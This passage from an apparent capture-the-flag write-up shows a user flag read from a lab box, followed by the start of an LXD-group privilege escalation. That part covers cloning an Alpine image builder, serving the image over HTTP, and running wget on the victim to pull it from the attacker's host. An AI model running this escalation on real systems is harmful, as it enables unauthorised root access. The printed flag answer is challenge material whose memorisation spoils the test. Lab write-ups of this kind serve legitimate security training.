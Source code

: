 ```

0 packages can be updated.
0 updates are security updates.


Last login: Mon Jul 27 20:17:26 2020 from 10.8.5.10
john@exploitable:~$
```
```
john@exploitable:~$ ls -l
total 4
-rw-rw-r-- 1 john john 33 Feb  5  2020 user.txt
john@exploitable:~$ cat user.txt
a5c2ff8b9c2e3d4fe9d4ff2f1a5a6e7e
```
**Question**
#### What is the user flag?
**Answer** 
#### a5c2ff8b9c2e3d4fe9d4ff2f1a5a6e7e
---
### Privilege escalation
The command **sudo -l** requiered a password to be executed. Let's check **id** output.
```
john@exploitable:~$ id
uid=1000(john) gid=1000(john) groups=1000(john),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),108(lxd)
```
john is under **LXD group**, so we can try to perform the privilege escalation through **lxd**

- First: As usual, let's try to find an exploit or pattern. And finally, this [website](https://www.hackingarticles.in/lxd-privilege-escalation/)
- Second: Clone this [repo](https://github.com/saghul/lxd-alpine-builder.git)
```
git clone  https://github.com/saghul/lxd-alpine-builder.git
Cloning into 'lxd-alpine-builder'...
remote: Enumerating objects: 50, done.
remote: Counting objects: 100% (8/8), done.
remote: Compressing objects: 100% (6/6), done.
remote: Total 50 (delta 2), reused 5 (delta 2), pack-reused 42
Receiving objects: 100% (50/50), 3.11 MiB | 5.41 MiB/s, done.
Resolving deltas: 100% (15/15), done.

cd lxd-alpine-builder    
                                                                                                                    
└─$ ls   
alpine-v3.13-x86_64-20210218_0139.tar.gz  build-alpine  LICENSE  README.md
```
- Third: Execute the script “build -alpine”
```
-rw-r--r-- 1 root root 3232323 Feb 20 15:46 alpine-v3.15-x86_64-20220220_1546.tar.gz
-rwxr-xr-x 1 bou  bou     8060 Feb 20 15:45 build-alpine
-rw-r--r-- 1 bou  bou    26530 Feb 20 15:45 LICENSE
-rw-r--r-- 1 bou  bou      768 Feb 20 15:45 README.md
```
- Fourth: From the directory where you have **alpine-v3.15-x86_64-20220220_1546.tar.gz**, start local server
```
python -m SimpleHTTPServer
```
- Fifth: From the victim, Download the file
```
john@exploitable:~$ cd /tmp/
john@exploitable:/tmp$ wget http://10.6.96.167:8000/alpine-v3.13-x86_64-20210218_0139.tar.gz
--2022-02-20 20:52:10--  http://10.6.96.167:8000/alpine-v3.13-x86_64-20210218_0139.tar.gz
```